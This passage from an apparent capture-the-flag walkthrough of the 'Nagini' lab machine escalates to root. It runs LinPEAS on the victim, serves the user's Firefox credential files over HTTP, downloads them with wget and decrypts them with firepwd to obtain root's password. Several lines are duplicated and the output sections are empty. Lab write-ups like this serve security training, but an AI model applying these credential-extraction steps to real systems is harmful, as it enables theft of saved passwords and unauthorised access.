

5.1.3 Privilege user "root" (Getting the 3rd flag)
1. Installing LinPEAS.
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz.
2. On your Kali Machine create a “linpeas.sh” file with content of https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh.
3. Copy the file to the victim's "/tmp' directory.
kali@kali:~/nagini$scp linpeas.sh hermoine@192.168.12.21:/tmp
4. Connet via SSH to the victim's machine.
kali@kali:~/nagini$ssh hermoine@192.168.12.21 -i .ssh/id_rsa
5. Change the “linpeas.sh” file permissions.
hermoine@Nagini:~$cd /tmp
hermoine@Nagini:/tmp$chmod +x linpeas.sh
hermoine@Nagini:/tmp$chmod +x linpeas.sh
6. Run “linepeas.sh” file with output file.
hermoine@Nagini:/tmp$./linpeas.sh | tee output
Output:
We find out that we might have some credentials in our “Mozilla Store”.
7. Getting credentials from "Mozilla".
1) Let's see what there is in the “Mozilla” directory.
hermoine@Nagini:/tmp$ls /home/hermoine/.mozilla/firefox/g2mhbq0o.default/
Output:
2) There is a tool called “firepwd” which allows the action.
Github: https://github.com/lclevy/firepwd
It needs, “logins.json” and “key4.db”.
3) Create a server on the “Victim machine” from the credential files can be downloaded.
hermoine@Nagini:~$cd /home/hermoine/.mozilla/firefox/g2mhbq0o.default/
hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$python3 -m http.server 9000
hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$python3 -m http.server 9000
Output:

4) Install “firepwd” on the “Kali Machine”.
$git clone https://github.com/lclevy/firepwd.git
$cd firepwd
$pip install -r requirements.txt pip install -r requirements.txt
$cd firepwd
$pip install -r requirements.txt pip install -r requirements.txt
Output:
5) Copy the “~/nagini/firepwd/firepwd.py” script to “creds” directory.
$mkdir creds
$cp firepwd.py ~/nagini/firepwd/creds/
$cd creds
$cp firepwd.py ~/nagini/firepwd/creds/
$cd creds
6) From your Kali Machine download the credentials files.
$wget http://192.168.12.21:9000/logins.json
$wget http://192.168.12.21:9000/key4.db
$wget http://192.168.12.21:9000/key4.db
Output:
7) Get the password. Remember you are in the “~/nagini/firepwd/creds” directory on your Kali Machine.
$python3 firepwd.py
Output:
At the end of the output you'll find the “root's” password. (@Alohomora#123).
8. Connet via SSH with user 'root".
$ssh root@192.168.12.21
Passwword: @Alohomora#123
Output:
9. Let's see the last flag.
root@Nagini:/#cd /root
root@Nagini:~#ls
root@Nagini:~#ls
Output:
10. Show the file.
root@Nagini:~#cat horcrux3.txt
Output: